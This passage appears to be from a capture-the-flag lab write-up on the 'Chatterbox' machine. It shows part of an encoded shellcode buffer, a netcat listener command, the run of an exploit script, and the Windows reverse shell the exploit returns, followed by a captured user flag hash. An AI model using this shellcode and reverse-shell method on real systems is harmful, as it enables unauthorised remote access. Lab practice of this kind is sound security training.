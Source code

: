 ```
buf += b"\x66\x52\x33\x31\x46\x52\x48\x51\x69\x48\x4c\x4f\x4f"
buf += b"\x43\x56\x49\x6f\x48\x55\x65\x39\x69\x50\x4e\x6e\x51"
buf += b"\x46\x71\x36\x79\x6f\x6c\x70\x31\x58\x39\x78\x53\x57"
buf += b"\x4b\x6d\x63\x30\x69\x6f\x69\x45\x37\x4b\x48\x70\x64"
buf += b"\x75\x73\x72\x42\x36\x52\x48\x63\x76\x44\x55\x67\x4d"
buf += b"\x75\x4d\x4b\x4f\x49\x45\x6d\x6c\x6a\x66\x31\x6c\x4a"
buf += b"\x6a\x33\x50\x4b\x4b\x49\x50\x53\x45\x79\x75\x75\x6b"
buf += b"\x51\x37\x4d\x43\x70\x72\x62\x4f\x61\x5a\x69\x70\x32"
buf += b"\x33\x6b\x4f\x69\x45\x41\x41"
```

fire up a listener

```
$ nc -nvlp 4567
```

Run the exploit

```
$ ./36025.py 
---->{P00F}!
                
```

## We got a shell

```
$ nc -nvlp 4567
listening on [any] 4567 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

```

The user is `alfred`

got the user flag.
![[0b57f721b52d4ef78508b2a2c85ea811.png]]

`b763f61d78cdc20897cde550a26fca32`

## Will need privesc to get root flag

![[6191ade6421047bc8fb451505f398788.png]]

# Enum
